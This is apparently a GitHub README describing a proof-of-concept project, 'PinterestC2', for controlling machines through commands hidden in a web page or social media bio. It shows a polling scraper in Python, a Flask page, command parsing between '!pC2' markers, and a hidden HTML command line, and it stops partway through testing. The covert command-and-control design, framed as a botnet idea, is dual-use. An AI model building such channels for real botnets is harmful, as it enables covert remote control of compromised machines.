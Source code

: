## PinterestC2
Proof of Concept project:
Using webpages as a Command Center to remote execute python.

### 1) The context.
On a discord server I am a part of, a message was sent that caught my eye:
``` "making a botnet using pinterest" ```
At first, I was baffled. What? Why? What? But the more I thought about it, the more I had to give it a shot. 
Here's a brief PoC writeup on how it works. All of the code used in this project can be found in the "FOLDER" folder.
#
### 2) The plan.
Although the original idea was to use a pinterest bio to relay the code, for demonstration purposes we're going to build our own web-app.
Since I am already familiar with Flask, that is what we're going to be using for the frontend. 
The whole setup consists of 3 separate, distinct apps.
#### 1st app: reads in consistent intervals the predefined html page that has the instructions. 
  Finds the keywords and reads everything inbetween them.
#### 2nd app: is our webapp, that we can locate on a external server. 
  Display a html, and have functionality to change the contents according to "user input".
  On a social media platform this "user input" could be i.e changing your bio or name.
#### 3rd app: works as an automated script to insert user input into our webapp.
  To actually control our C2 remotely, we might want to create a script that could change the "user input" on the site.
  In the example of pinterest this would mean a script that takes your input in terminal, and then inserts this input 
  into your pinterest profile, as either name or a sentence in your bio. However in this project, we will not do that,
  since we're not actually using a real social media site with well built frameworks.
 #
 ### 3) The execution.
#### Setting up the website
I wanted to start by building a simple website to test my scraper.  
  ```
  @app.route('/')  
  def home():  
    return "Welcome to rest a pint!"  
  ```
Afterwhich I could test my scraper. This has one problem though,
if I do a simple
``` page = requests.get(url); print(page.text) ```  
It gives me a plain string, ``` "Welcome to rest a pint!" ```. If we did the same to, say pinterest.com the output would be the whole HTML of the mainpage.
To test out the parsing and coming closer to a real use case, we shall make it return a simple .html template, called "mainpage"
#### Setting up the scraper
This was fairly easy. 
What you do is set up a loop, wait a set amount of time, pull your desired url as "page" and assing it .text to a variable to later handle its contents.
```  
import time  
import requests as req  
  
while True:  
    page = req.get(YourUrlHere)  
    content = page.text  
```
We can now handle the contents of the html page. To begin, we might want to try to find a keyword from the page. Let's use something distinct, like !pC2.
```  
if "!pC2" in content:  
  content = content.split("!pC2")
  return content[1]
```  
Now it finds everything inbetween !pC2. We now could have something like, !pC2OFFLINE!pC2, that to a normal social media user tells nothing.
However, now we can start having actions execute on our remote device. Although kind of dumb, we can use the previous example to make the machine stop listening.
Let's call the previous code function "listen", and move the loop to our new function. To add interest, 
lets also add a command "ECHO" that prints everything after "!pC2ECHO" to our terminal.
Now we have something like this:
```  
while True:
    time.sleep(1)
    command = listen()
    if command == "OFFLINE":
        break  
    if "ECHO" in command:
        print(command.replace("ECHO",""))
```  
#### Testing this all out.
To make sure that it really does work, I set up my webapp on a VPS. Connecting to https://my.vps.ip:5000/ on my browser shows our mainpage.html, meaning that the page truly is up. Now when I insert that url into my reader.py, ```url = my.vps.ip:5000 ``` and run the .py, the terminal stays clear and our VPS terminal shows that someone is visiting our site roughly every second. Now let's go back to our template.html, and add one line below line 12:  
```  
12 <h1 style="color:white;">Welcome to rest a pint!</h1>     
13 <p style="color:white;">!pC2OFFLINE!pC2</p>  
